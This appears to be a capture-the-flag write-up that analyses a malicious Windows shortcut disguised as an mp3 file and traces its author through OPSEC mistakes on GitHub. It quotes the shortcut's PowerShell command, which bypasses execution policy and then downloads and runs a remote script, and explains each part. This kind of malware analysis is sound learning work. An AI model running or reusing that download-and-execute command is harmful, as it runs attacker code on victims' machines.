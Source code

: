 For this challenge, I had to analyze the files downloaded from a youtube to mp3 converter website (which are notorious for phishing scams, malware).

After evading a rickroll that I saw coming from a mile away, I ran the `file` command on both the files extracted from the zip downloaded from the website. One was an audio file whereas the other was a MS Windows shortcut, a .lnk file, which is used to link to another file or folder in Windows _and_ can also be used to run commands.

To inspect this .lnk file, we were given the preinstalled `exiftool` tool. I ran it on the `somg.mp3` file and examined the code:

```
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```
Here, `-ep Bypass` is used to disable shell restrictions that allows the script to run without any security intereferences.

`DownloadFile` downloads the IS.ps1 file from the github repository linked after it onto the ProgramData folder.

After that, the script is executed by `iex which triggers the s.ps1 file.

By checking the file itself in a browser, we can see that the script was designed to collect sensitive information. However, there was a crucial error made in the script which was that it was signed off by "M.M"

By searching for that signature on github, we can find this code being discussed on a public forum with another user named Bloatware-WarewillTHM.

This is the mistake made by M.M. They left traces of their work which allowed us to track them down easily, and this is the key concept behind OPSEC failure.

OPSEC refers to the process of protecting sensitive information from adversaries with the goal being to identify and eliminate potential threats before the attacker can learn their identity. In context of CyberSec, it refers to malicious actors that fail to follow proper OPSEC practices, thereby leaving traces that can be tracked down to reveal their identity. Here, the OPSEC mistake made by M.M was posting on a public forum with the same username. 

Now that we have M.M's profile, we can find out their true identity by digging around a little more in their github which has a repository "M.M" that reveals his identity.
